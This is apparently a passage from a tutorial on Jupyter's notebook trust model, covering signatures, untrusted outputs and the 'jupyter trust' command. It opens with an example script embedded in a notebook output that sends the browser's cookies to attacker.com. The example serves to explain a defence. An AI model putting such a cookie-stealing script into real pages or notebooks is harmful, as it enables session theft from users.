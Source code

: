 Example of malicious JavaScript output in a notebook:
```html
<script>
    // Send cookies or sensitive information to an external server
    fetch("https://attacker.com/steal", { 
        method: "POST", 
        body: document.cookie 
    });
</script>
```

This script could be embedded in the **output** of a cell in a notebook. If the user opens the notebook without trusting it, the browser might execute this code.

---

### **2. The Security Model: Trust System**

Jupyter uses a **trust-based security model** to mitigate such risks. Here's how it works:

#### **a. Cryptographic Signature**
- Every Jupyter notebook file (`.ipynb`) has a **cryptographic signature** stored in its metadata.
- This signature is generated using a **secret key** unique to the user’s system.
- The signature ensures that outputs in the notebook were generated by the user on their trusted system.

#### **b. Trusted vs. Untrusted Outputs**
- **Trusted Outputs:** Generated by the user or trusted by the user explicitly. These are displayed and executed (if they contain HTML or JavaScript).
- **Untrusted Outputs:** Found in the notebook when it is first opened. These are not displayed or executed until the user explicitly **trusts** the notebook.

Jupyter decides whether to trust a notebook based on its cryptographic signature. If the signature is missing or invalid, the notebook's outputs are considered **untrusted**.

---

### **3. Example: Trust in Action**

#### **Scenario 1: A User Opens a Notebook with Untrusted Outputs**
1. A notebook is downloaded from an external source.
2. The user opens it in Jupyter, and the notebook does not match the user’s cryptographic signature.
3. HTML or JavaScript outputs are sanitized (not executed or displayed). Instead, the user sees:
   ```
   [Output not displayed: Untrusted]
   ```

#### **Scenario 2: A User Trusts the Notebook**
1. The user runs the command to trust the notebook:
   ```bash
   jupyter trust my_notebook.ipynb
   ```
   This updates the cryptographic signature in the notebook’s metadata.
2. Now, all outputs (including HTML/JavaScript) are trusted and displayed when the notebook is reopened.

---